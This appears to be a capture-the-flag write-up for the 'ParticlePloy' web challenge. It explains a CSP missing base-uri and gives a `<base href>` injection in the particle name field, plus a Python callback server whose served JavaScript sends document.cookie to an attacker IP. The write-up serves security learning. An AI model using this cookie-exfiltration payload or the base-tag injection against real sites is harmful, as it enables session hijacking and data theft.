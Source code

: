 ```yaml
---
layout: Post
type: chall
---
```

# ParticlePloy ⭐⭐

<a class="back-link" href="../../">< Go back</a>

## Description

A platform where you can create some nice particle visualizations.
Check it out but keep aware to make them visually appealing.

A website and [ParticlePloy/](./ParticlePloy/) were given.

## Challenge

### Reconnaisance

We have a particle creation webpage, lots of specific fields allow us to edit the particles.

More interestingly, `name` and `color` both are "string" type fields. This might come in handy.

Let's try to give it a random name and generate our particles. This gives a new webpage where we can see our particles in the background, this suggests that there is some javascript being executed in the background somewhere.

We are given the source code of the app for this challenge.

### Code analysis

Let's take a look around. `app/app.py` is pretty interesting, we learn that there are very strict rules for our two "string" fields we are mostly intersted in:

```py

class ParticleConfigForm(Form):
    name = StringField("A cool name for your particles!")
    # ...
    color = StringField(
        "Color (hexadecimal representation)",
        validators=[validators.Regexp(regex="^#([A-Fa-f0-9]{6}|[A-Fa-f0-9]{3})$")],
        default="#000000",
    )
    # ...
```

Appart from these strict rules, we also have a pretty heavy sanitization, using `html-sanitizer`.

And we also learn that a `custom_particle_config.js` file is generated for each particle:

```py
@blueprint.route("/particles/<uuid>/custom_particle_config.js", methods=["GET"])
def custom_particle_js(uuid):
    pc = db.get_particle_config(uuid)
    particles_config = pc["config"]

    return Response(
        response=render_template("particles.js", particles_config=particles_config),
        status=200,
        mimetype="application/javascript",
    )
```

Let's take a look at the template at `app/templates/particles.js`:

```js
window.onload = function() {
    config = {{ particles_config }}
    config['selector'] = '.background';
    Particles.init(config);
};
```

Then this template gets injected and ran in `app/tempaltes/view.html`:

```html
<script nonce="{{ csp_nonce() }}">
    let script = document.createElement('script');
    script.src = document.getElementById('custom_particles').innerText;
    document.body.appendChild(script);
</script>
```

But it appears to be "nonce-protected". Let's take a look at the CSP configurations and at sanitization.

#### Protection

In `app/app.py` we find the following:

```py
def create_app() -> Flask:
    app = Flask(__name__)

    Talisman(
        app,
        force_https=False,
        content_security_policy={"script-src": ["'strict-dynamic'"]},
        content_security_policy_nonce_in=["script-src"],
    )
    # ...
```

This is a pretty strict CSP, but it allows for `strict-dynamic` scripts. This means that we can inject scripts as long as they are generated by the app itself. Which seems logical as that is what the app is meant to do. Cool we are starting to see a vector of attack.

Just below the `create_app` function we find the rules applied by `html-sanitizer`, though they are commented out and don't really apply any sanitization.

#### Admin

We've explored the `app/` folder let's take a look at the `admin-simulation/` now. Here we learn three things:

1. Both `app/` and `admin-simulation/` share the same database.
2. There is a `session` cookie that contains the FLAG!
3. The `admin-simulation/main.py` runs a headless browser that loads once every 2s each particle webpage, executing the `custom_particle_config.js` script in the process.

Okay we have an objective, and our vector of attack is getting clearer.

It appears we have to somehow inject malicious content inside the `custom_particle_config.js` script, and have the admin-simulation load it, if we manage to maybe get a simple request back to our server, we can steal the `document.cookies` and get the flag.

### Exploitation

#### Setting up our callback server

Let's not go too complicated on this, we just want a simple HTTPServer, that sends a new payload that requests the document.cookies when called:

```py
from http.server import BaseHTTPRequestHandler, HTTPServer

class Server(BaseHTTPRequestHandler):
    def do_GET(self):
        print("COOKIES:\n", self.headers['Cookie'])
        print("headers:\n", self.headers)
        print("URL:\n", self.path)
        js_code = '''
        var cookies = document.cookie;
        fetch(`https://<IP>?flag=${encodeURIComponent(document.cookie)}`, {
            method: 'GET',
        })
        '''
        self.send_response(200)
        self.send_header('Content-type', 'application/javascript')
        self.end_headers()
        self.wfile.write(js_code.encode('utf-8'))

def run(server_class=HTTPServer, handler_class=Server, port=8000):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        pass
    httpd.server_close()

if __name__ == '__main__':
    run()

```

#### Crafting our payload

After looking at [csp-evaluator](https://csp-evaluator.withgoogle.com/) we can quickly see that the CSP configuration is missing a critical element, `base-uri`. This means that we can inject a `<base>` tag as the `name` of our particle and have it point to our malicious server.

So first step, start the malicious server.

Second generate a new particle with the following name:

```html
<base href="http://<IP>:8000/"/>
```

And finally, we get the flag as an URIEncoded element, let's just run it through CyberChef's "parse URI" tool and we get the flag.

